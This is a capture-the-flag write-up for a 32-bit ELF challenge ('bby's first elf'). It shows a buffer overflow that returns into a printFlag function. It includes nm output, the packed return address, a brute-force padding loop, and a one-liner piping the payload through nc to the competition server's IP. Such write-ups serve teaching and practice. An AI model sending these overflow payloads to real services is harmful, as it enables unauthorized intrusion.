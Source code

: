 bby's first elf
==============

I played with the binary for a little bit and then saw it was a clear buffer overflow, especially considering the hint that it suggested: "Do you feel the flow?"

The buffer seemed too small to try and fit any shellcode in it, so I figured it had some function to give us the flag or grant us a shell in the binary itself. To verify, I ran the [`nm`][nm] command to see all the functions it had.

```
...
08049f10 d __JCR_END__
08049f10 d __JCR_LIST__
         w _Jv_RegisterClasses
08048680 T __libc_csu_fini
08048610 T __libc_csu_init
         U __libc_start_main@@GLIBC_2.0
080485c9 T main
0804856d T printFlag
         U puts@@GLIBC_2.0
080484e0 t register_tm_clones
08048470 T _start
0804a040 B stdout@@GLIBC_2.0
0804a034 D __TMC_END__
080484a0 T __x86.get_pc_thunk.bx
...
```

I could see it very clearly had a function called `printFlag`, so all we had to do was jump to that memory address. First we converted it into something [Python] could output:

``` python
>>> import struct
>>> struct.pack('<I', 0x0804856d)
'm\x85\x04\x08'
```

Then we could start to hammer the thing with offsets and try and get the flag. I was honestly feeling lazy so I brute-forced this:

```
for i in {15..30}; do echo `python -c "print 'A'*$i + 'm\x85\x04\x08'"`| nc 146.148.95.248 2525; done
``

Then I found the flag. Here's a good one-liner:

```
echo `python -c "print 'A'*24 + 'm\x85\x04\x08'"`| nc 146.148.95.248 2525|grep "TUCTF" --color=none
```